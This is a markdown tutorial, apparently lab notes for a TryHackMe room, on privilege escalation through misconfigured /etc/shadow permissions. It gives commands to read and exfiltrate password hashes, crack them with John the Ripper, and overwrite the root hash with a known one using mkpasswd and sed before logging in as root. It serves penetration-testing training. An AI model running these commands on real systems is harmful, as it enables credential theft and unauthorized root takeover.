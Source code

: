 ### **Overview of /etc/shadow Vulnerabilities**

The /etc/shadow file that stores password hashes that are only accessible by the root user under normal circumstances. Misconfigurations in this file's permissions can lead to severe security breaches.

Practice Machine : https://tryhackme.com/r/room/linuxprivescarena

### **Scenario 1: Cracking Password Hashes**

If /etc/shadow is readable due to misconfigured permissions, attacker can extract and crack password hashes.

1.  Verify if the /etc/shadow is readable.  
    `ls -l /etc/shadow`  
    
    ![](../../../img/Linux-Environment/144.png)
    
2.  Using LinPEAS.sh you can also find  about this vulnerability being present.  
    `./linpeas.sh`  
    
    ![](../../../img/Linux-Environment/145.png)
    
3.  Having the ability to read /etc/shadow, we can copy the contents of it, and then, crack the hashes using john  
    `cat /etc/shadow`  
    
    ![](../../../img/Linux-Environment/146.png)
    
4.  Copy the contents of it into your own machine, or use any type of file transfer method you prefer.  
    `echo 'HASH' > shadow.hash`
    
5.  Use a password cracker like John the Ripper.  
    `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.hash`
    

### **Scenario 2: Replacing the Root Password Hash**

If /etc/shadow is writable, an attacker can replace the root password hash with a known one.

1.  Ensure the file is incorrectly writable.  
    `ls -l /etc/shadow`
    
2.  Generate a new hash for a known password.  
    `mkpasswd -m sha-512 newpassword`  
    
    ![](../../../img/Linux-Environment/147.png)
    
3.  Create a backup of the /etc/shadow file  

    ![](../../../img/Linux-Environment/148.png)
    
4.  Copy the output hash, and, replace the root hash with our new hash  
    `Before`  
    
    ![](../../../img/Linux-Environment/149.png)

    `After`  
    
    ![](../../../img/Linux-Environment/150.png)
    
5.  You can use sed command to create a whole new line  
    `sed 's/^root:[^:]*:/root:[HASH]:/g' /etc/shadow | grep [USER]`  

    ![](../../../img/Linux-Environment/151.png)

    `sed 's/^root:[^:]*:/root:$6$kIW2RPXnEttDUn1y$7VCgKvZGaJhS06zJZfWbcGbybqDaynTQMnpZjFjrFcLy9KJ\/97pxQXM5ASSssIUV\/Vydx8QSWJkUPH0tvqoVH\/:/g' /etc/shadow | grep root`
    
6.  Now we can log in as root  
    `ssh root@[IP-ADRESS]`  
    
    ![](../../../img/Linux-Environment/152.png)